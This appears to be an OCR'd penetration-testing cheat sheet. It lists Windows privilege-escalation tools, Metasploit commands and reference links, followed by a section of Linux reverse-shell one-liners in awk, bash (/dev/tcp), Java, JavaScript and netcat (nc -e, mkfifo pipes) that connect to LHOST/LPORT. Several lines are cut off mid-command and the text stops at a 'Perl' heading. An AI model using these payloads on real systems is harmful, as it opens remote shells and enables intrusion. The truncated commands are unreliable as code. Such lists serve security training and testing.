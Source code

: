 WinPeas [ https://github.com/carlospolop/privilege-escalation-awesome-scripts-
suite/tree/master/winPEAS ]

Accesschk.exe
[https://github.com/jivoi/pentest/blob/master/post_win/accesschk_exe]
PowerUp (https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
Seatbelt (https://github.com/carlospolop/winPE/tree/master/binaries/seatbelt)

Other : Windows Exploit Suggester (https://github.com/AonCyberLabs/Windows-Exploit-
Suggester)

Metasploit :

getsystem
run post/multi/recon/local_ exploit_ suggester

Resources :
https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%2
0and%20Resources/Windows%20-%20Privilege%20Escalation.md
https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
http://www.fuzzysecurity.com/tutorials/16.html
https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation (Win
PrivEsc Checlist)
https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

Linux Reverse Shells

Awk

awk 'BEGIN {s = "/inet/tcp/0/LHOST/LPORT"; while(42) { do{ printf "shell>" |

Bash

bash -i >& /dev/tcp/LHOST/LPORT 0>&1

0<&196;exec 196<>/dev/tcp/LHOST/LPORT; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/LHOST/LPORT && while read line 0<&5; do $line 2>&5 >&5; don

Java

r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/LHO

Javascript

(function(){ var net = require("net"), cp = require("child_process"), sh = c

Netcat

nc -e /bin/sh LHOST LPORT

/bin/sh | nc LHOST LPORT

rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f

rm -f backpipe; mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc LHOST

rm -f backpipe; mknod /tmp/backpipe p && nc LHOST LPORT 0<backpipe | /bin/ba

Perl
